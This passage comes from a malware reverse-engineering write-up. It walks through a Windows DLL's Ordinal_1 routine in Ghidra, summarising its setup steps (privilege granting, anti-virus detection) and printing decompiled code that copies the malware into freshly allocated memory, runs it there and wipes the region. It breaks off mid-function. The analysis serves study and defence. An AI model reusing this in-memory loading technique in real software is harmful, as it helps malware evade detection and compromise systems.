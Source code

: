 In summary this function performs some general setup by:
- setting the system startup time
- granting privileges
- detecting anti virus
- and copying the malware to memory

The purpose of all this is not quite clear yet but we are sure to encounter some of the globals that were set later on.

## Back to Ordinal_1

One of the first things to note after the function we just investigated is that it checks the 4th argument against `0xffffffff`. We also know that it is cast to a `HANDLE`. Furthermore we know that depending on the compiler a `HANDLE` is 32 or 64 bits and Ghidra tells us as general information that the application is using 32 bits Address Size. Meaning it is a `DWORD` and corresponds to `-1`. Some more MSDN searching reveals that this is the constant for `INVALID_HANDLE_VALUE`.

Assuming that the handle is not invalid, then `FUN_10009590` is invoked with the first 3 `Ordinal_1` function arguments.

### FUN_10009590

```cpp
undefined4 FUN_10009590(undefined4 param_1,undefined4 param_2,undefined4 param_3)

{
  SIZE_T dwSize;
  undefined *puVar1;
  SIZE_T dwSize_00;
  undefined *_Dst;
  int iVar2;
  int iVar3;
  BOOL BVar4;
  void *_Src;
  DWORD local_c;
  SIZE_T local_8;
  
  _Src = DLL_handle;
  if ((_DAT_1001f114 == 0) && (malware_dll_buffer != 0)) {
    dwSize = *(SIZE_T *)(*(int *)((int)DLL_handle + 0x3c) + 0x50 + (int)DLL_handle);
    local_8 = dwSize;
    _Dst = (undefined *)VirtualAlloc((LPVOID)0x0,dwSize,0x1000,4);
    if (_Dst != (undefined *)0x0) {
      DAT_1001f13c = _Dst;
      memcpy(_Dst,_Src,dwSize);
      iVar3 = malware_dll_buffer;
      _Src = (void *)(*(int *)(malware_dll_buffer + 0x3c) + malware_dll_buffer);
      if (((_Src != (void *)0x0) && (*(uint *)((int)_Src + 0xa0) != 0)) &&
         (*(int *)((int)_Src + 0xa4) != 0)) {
        iVar2 = FUN_10009322(_Src,*(uint *)((int)_Src + 0xa0));
        if ((((void *)(iVar2 + iVar3) != (void *)0x0) &&
            (iVar3 = FUN_100091fa((void *)(iVar2 + iVar3),(int)_Dst), iVar3 != 0)) &&
           (iVar3 = FUN_10009286(_Dst), iVar3 != 0)) {
          (*(code *)(_Dst + (int)(FUN_100094a5 + -(int)DLL_handle)))
                    (param_1,param_2,param_3,0xffffffff);
        }
      }
      dwSize_00 = local_8;
      BVar4 = VirtualProtect(_Dst,local_8,4,&local_c);
      puVar1 = _Dst;
      dwSize = dwSize_00;
      if (BVar4 != 0) {
        while (dwSize != 0) {
          *puVar1 = 0;
          puVar1 = puVar1 + 1;
```